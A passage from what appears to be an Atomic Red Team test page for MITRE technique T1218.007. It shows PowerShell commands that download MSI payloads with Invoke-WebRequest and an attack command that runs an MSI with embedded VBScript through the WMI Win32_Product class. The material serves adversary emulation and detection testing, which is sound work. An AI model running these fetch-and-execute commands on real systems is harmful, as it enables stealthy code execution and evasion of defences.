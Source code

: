 


#### Dependencies:  Run with `powershell`!
##### Description: The MSI file must exist on disk at specified location (#{msi_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{msi_payload}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{msi_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1218.007/bin/T1218.007_JScript.msi" -OutFile "#{msi_payload}"
```




<br/>
<br/>

## Atomic Test #6 - WMI Win32_Product Class - Execute Local MSI file with embedded VBScript
Executes an MSI containing embedded VBScript code using the WMI Win32_Product class

**Supported Platforms:** Windows


**auto_generated_guid:** cf470d9a-58e7-43e5-b0d2-805dffc05576





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| msi_payload | MSI file to execute | path | PathToAtomicsFolder&#92;T1218.007&#92;bin&#92;T1218.007_VBScript.msi|
| action | Specifies the MSI action to perform: Install, Admin, Advertise. The included MSI is designed to support all three action types. | string | Install|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-CimMethod -ClassName Win32_Product -MethodName #{action} -Arguments @{ PackageLocation = '#{msi_payload}' }
```




#### Dependencies:  Run with `powershell`!
##### Description: The MSI file must exist on disk at specified location (#{msi_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{msi_payload}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{msi_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1218.007/bin/T1218.007_VBScript.msi" -OutFile "#{msi_payload}"
```
